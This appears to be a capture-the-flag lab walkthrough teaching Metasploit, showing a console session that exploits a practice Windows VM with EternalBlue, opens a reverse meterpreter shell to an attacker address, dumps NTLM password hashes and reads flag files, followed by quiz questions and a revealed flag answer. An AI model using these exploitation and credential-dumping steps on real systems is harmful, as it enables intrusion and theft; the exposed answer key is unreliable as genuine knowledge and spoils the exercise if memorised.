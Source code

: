 Now that you have learned how to exploit hosts using Armitage, you will now get to practice your skills by hacking the virtual machine by using Metasploit and Armitage. There are multiple exploit paths that you may be able to follow. We encourage you to explore the various exploit paths you may be able to find in order to gain a better understanding of exploitation and post-exploitation modules in Metasploit and Armitage. As a reminder, Armitage is just Metasploit with a GUI; all the same exploits exist and are categorized the same way.

Need Some Help? Click here! If you are having difficulties with compromising the machine, here’s a step-by-step guide to compromise the VM with Metasploit. If you would like to use Armitage, use this [guide that shows step-by-step](https://drive.google.com/file/d/1u-YmWl7cx3tO2vVjon0EtOGLXVCak2SJ/view?usp=sharing) instructions. Now onto Metasploit!

Our first step is to launch Metasploit:

Launching Metasploit and using Eternal Blue!

```
root@attackbox$ msfconsole -qmsf5 > use exploit/windows/smb/ms17_010_eternalblue[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcpmsf5 exploit(windows/smb/ms17_010_eternalblue) > set LHOST eth0LHOST => eth0msf5 exploit(windows/smb/ms17_010_eternalblue) > set RHOST VICTIM_IPRHOST => VICTIM_IPmsf5 exploit(windows/smb/ms17_010_eternalblue) > run[*] Started reverse TCP handler on ATTACKER_IP:4444 [*] VICTIM_IP:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check[+] VICTIM_IP:445      - Host is likely VULNERABLE to MS17-010! - Windows 7 Home Basic 7600 x64 (64-bit)[*] VICTIM_IP:445      - Scanned 1 of 1 hosts (100% complete)[*] VICTIM_IP:445 - Connecting to target for exploitation.[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-WIN-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=[+] VICTIM_IP:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=meterpreter > getuidServer username: NT AUTHORITY\SYSTEM
```

Now that we have exploited the Virtual Machine and have achieved System level access, we can use the hashdump command to retrieve the users NTLM hashes:

Running Hashdump

```
meterpreter > hashdumpAdministrator:500:aad3b435b51404eeaad3b435b51404ee:c156d5d<snip!>4d6e0943c:::Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae93<snip!>d7e0c089c0:::Ted:1001:aad3b435b51404eeaad3b435b51404ee:2e2618f266da8867<snip!>5c1309a5c:::meterpreter >
```

All that is left is to now retrieve the flags in the user’s Home folders:

Collecting our flags!

```
meterpreter > cat C:/Users/Administrator/Desktop/root.txtTHM{bd6ea6c87<snip!>21081132744}meterpreter > cat C:/Users/Ted/Desktop/user.txtTHM{217fa45e3<snip!>fc0be28e760}
```

And that’s all there is to it! You have successfully compromised Ted’s PC.

**Answer the questions below**

> What flag can be found after gaining Administrative access to the PC?

**_THM{bd6ea6c871dced619876321081132744}_**

> What is the Administrator’s NTLM hash?
